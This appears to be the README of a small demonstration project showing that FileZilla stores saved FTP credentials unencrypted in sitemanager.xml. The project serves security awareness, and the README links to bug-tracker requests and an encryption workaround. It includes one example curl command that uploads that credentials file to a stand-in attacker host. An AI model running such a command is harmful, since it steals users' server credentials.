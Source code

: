 # Filezilla passwords revealer

This is a small script to demonstrate that the Filezilla credentials are stored **unencrypted** on the local drive and that any program, malware, or even node module running on your machine can trivially access them.  

A single bash command is enough! `curl -F "credentials=@~/.filezilla/sitemanager.xml" attacker.com/credentials.php
` reads the local preference file and uploads it to a remote website.

### Running

- Clone this repository
- `npm install`
- `node index.js`

Or simply copy paste this script in your terminal

```
git clone https://github.com/christophetd/filezilla-passwords-revealer.git
cd filezilla-passwords-revealer
npm install
node index.js
```

Disclaimer: copy pasting bash commands in your terminal [is a terrible practice](https://thejh.net/misc/website-terminal-copy-paste) security-wise

### Resources

- « *[Making FileZilla FTP Client's passwords more secure with TrueCrypt](http://www.trailheadinteractive.com/making_filezilla_ftp_client039s_passwords_more_secure)* ». Note that you should use [VeraCrypt](https://veracrypt.codeplex.com/) instead of TrueCrypt since the latter is now deprecated.
- Some of the numerous feature requests on the official bug tracker : [#5530](https://trac.filezilla-project.org/ticket/5530), [#2935](https://trac.filezilla-project.org/ticket/2935), [#3176](https://trac.filezilla-project.org/ticket/3176)
